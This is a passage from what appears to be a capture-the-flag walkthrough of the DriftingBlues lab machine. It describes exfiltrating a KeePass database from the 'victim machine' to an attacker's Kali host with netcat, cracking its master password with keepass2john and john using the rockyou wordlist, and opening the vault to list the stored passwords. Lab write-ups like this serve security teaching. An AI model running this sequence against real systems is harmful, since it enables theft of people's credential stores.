





5.1 Cracking a "keepass db" file
Keepass
KeePass is a free open source password manager, which helps you to manage your passwords in a secure way. You can store all your passwords in one database, which is locked with a master key. So you only have to remember on esingle master key to unlock the whole database. Database files are encrypted using the best and most secure encryption algorithms currently known(AES-256, ChaCha20 and Twofish).For more information, see the features page.
Keepass files extension is “kdbx”.
As you can see in the previous step we have a file called “
keyfile.kdbx” on our victime machine.1. Send the file to your Kali Machine with “Netcat". On your Kali Machine run.
$nc -w 3 192.168.12.46 4444 > keyfile.kdbx
2. On your victim machine run the following command.
gill@driftingblues:~$nc -l -p 4444 < keyfile.kdbx
3. On your Kali Machine list the files.
$ls -la
Output:

4. Crack the “
keyfile.kdbx” password with “keepass2john” to make it crackeable with “john”. On your Kali Machine run the following code.$keepass2john keyfile.kdbx > crackjohn
$cat crackjohn
$cat crackjohn
Output:

5. Crack the file with “john”.
$john --wordlist=/usr/share/wordlists/rockyou.txt crackjohn
Output:

The passwsord is “porsiempre”.
6. List the passwords in the “
keyfile.kdbx”. Visit https://app.keeweb.info/.
a) Click on the “Open” link.
b) Choose
keyfile.kdbx.c) Introduce the password (porsiempre)

You'll get all the passwords saved in the file.